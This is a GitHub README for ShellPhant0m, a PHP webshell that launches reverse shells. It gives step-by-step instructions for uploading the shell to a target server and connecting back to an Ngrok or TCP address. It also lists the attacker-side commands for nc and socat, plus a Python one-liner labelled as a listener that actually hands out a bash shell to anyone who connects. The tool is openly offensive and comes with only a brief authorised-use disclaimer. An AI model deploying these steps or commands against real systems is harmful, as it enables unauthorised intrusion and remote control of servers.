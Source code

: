 # ShellPhant0m

**ShellPhant0m** is a lightweight PHP webshell with a built-in reverse shell launcher. It provides an interactive interface to trigger reverse connections using multiple methods and shell types.

---

<img width="1020" height="708" alt="image" src="https://github.com/user-attachments/assets/85925335-8e1f-47ea-8bb8-0597515b541f" />


## Features

- Single-file PHP shell for remote deployment
- Multiple reverse shell methods:
  - Netcat (nc)
  - Socat
  - Python
  - Perl
  - PHP
- Configurable shell selection (/bin/bash, /bin/sh, /sbin/sh)
- Dark theme interface with copy-to-clipboard functionality
- Dynamic port configuration for listener commands
- Accepts Ngrok or TCP address directly
- Auto-parses the host and port

## Requirements

- PHP-enabled web server (e.g., Apache, Nginx with PHP)
- A public listener (Ngrok, VPS, port-forwarded server)
- Target system with required tools (nc, socat, python, perl, or php)

## Usage

1. Upload `ShellPhant0m.php` to the target server
2. Access the shell via browser
3. Choose connection method from the dropdown menu
4. Select preferred shell type (/bin/bash, /bin/sh, /sbin/sh)
5. Paste your Ngrok or TCP address (e.g., `0.tcp.ap.ngrok.io:12345`)
6. Click **Launch Shell** to trigger the reverse shell

### Example Ngrok Setup

```bash
ngrok tcp 4444
```

### Example Listener Commands

All listener commands are provided in the interface with copy buttons. Default examples:

**Netcat:**
```bash
nc -lvnp 4444
```

**Socat:**
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

**Python:**
```bash
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind((\"0.0.0.0\",4444));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])"
```

## Disclaimer

This tool is intended for **educational** and **authorized security testing** purposes only. Do not use it on systems you do not own or have explicit permission to test.

---
Created by: [AndKnownMaly](https://github.com/andknownmaly)
